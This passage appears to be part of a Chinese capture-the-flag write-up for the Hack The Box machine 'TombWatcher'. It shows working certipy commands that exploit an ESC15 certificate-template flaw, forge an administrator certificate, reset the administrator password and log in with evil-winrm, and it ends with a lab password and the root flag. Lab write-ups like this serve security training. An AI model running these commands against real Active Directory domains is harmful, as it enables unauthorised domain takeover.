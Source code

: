 然后就是certipy找可以利用的证书模板：
```
└─# certipy-ad find -dc-ip 10.10.11.72 -u cert_admin -p 'Orange33315!' -vulnerable -stdout
```

```
  0
    Template Name                       : WebServer
[!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patch
```

这里存在ESC15攻击途径：

```
└─# certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'Orange33315!' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -upn 'administrator@tombwatcher.htb'  \
    -application-policies 'Client Authentication'
```

```
└─# certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72' -ldap-shell
```

```
# change_password administrator Orange33315!
```

```
─# evil-winrm -i 10.10.11.72 -u Administrator -p 'Orange33315!'
```

在C:\Users\Administrator\Desktop下找到root.txt：

```
91f5c0688ad46cfd254c896c1907cf5f
```

参考：https://www.hyhforever.top/posts/2025/06/htb-tombwatcher/

